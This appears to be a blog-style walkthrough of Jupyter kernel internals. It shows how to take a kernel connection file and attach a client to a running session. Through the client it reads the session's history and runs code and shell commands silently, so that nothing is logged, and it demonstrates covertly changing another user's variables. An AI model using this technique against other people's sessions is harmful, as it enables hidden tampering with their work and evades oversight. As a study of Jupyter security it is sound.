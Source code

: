 # What is a jupyter session anyway?

Instead of focusing on the password and token based authentication most folks are used to seeing as part of their JupyterLab interface, we're going to take a deeper look at the internals. Come play along!

1. Start an instance. My go-to command from WSL2 is `jupyter-lab --no-browser`.
2. See `http://localhost:8888/lab?token={SOMESTUFF}`? Yup, that'll help you connect to the session in the browser, but we're going to take a different route.
3. Take a look at your various runtimes (sorted by modification time): `ls -tlr ~/.local/share/jupyter/runtime/`. [1]
4. See the most recent file that starts with `kernel` and ends with `.json`? That has some goodies. Take a look and keep a copy. 

![kernel_json](img/kernel_json.JPG)

With that file, we can create a [KernelClient](https://jupyter-client.readthedocs.io/en/stable/api/client.html).

```
cf = jupyter_client.find_connection_file("your.json")
kc = jupyter_client.BlockingKernelClient(connection_file = cf)
kc.load_connection_file()
kc.start_channels()
```

We can now do things like checking out the session history: `kc.get_shell_msg(kc.history())`. This includes all of the kernel history, including things that happened before we joined.

![history](img/history_1.JPG)

And we can execute commands: `kc.execute_interactive(code="print('banana')")`. Keep in mind that this will show up in the history.

And sometimes we don't want to be logged. So try: `kc.execute_interactive(code="print('grapefruit')", silent=True)`. Boom, not in the history anymore. You know those cell execution counters? This also prevents them from incrementing (our `print('banana')` _would_ increment the counter... which could be noticed by anyone using the notebook.

Because we're executing commands in ipython, other fun things work like executing system commands with `!`: `kc.execute_interactive(code="!ls", silent=True)`

This execution method can even let us tamper with Jupyter-users during runtime. Check out this well-timed variable modification...

![runtime](img/runtime.JPG)

and the execution count and history don't even give us away.

`kc.execute_interactive(code="test = 'jimmy'", silent=True)`

It's also possible that this was entirely too complicated. You can do similar things from `jupyter console --existing your.json`... but I'm not sure you can be quite as stealthy or have the range of raw functionality. If you choose to do it with `jupyter console`, also be aware that killing the console there will also kill it for any cohabitants. Do you have any other cool uses for this technique?


[1] https://stackoverflow.com/a/70263390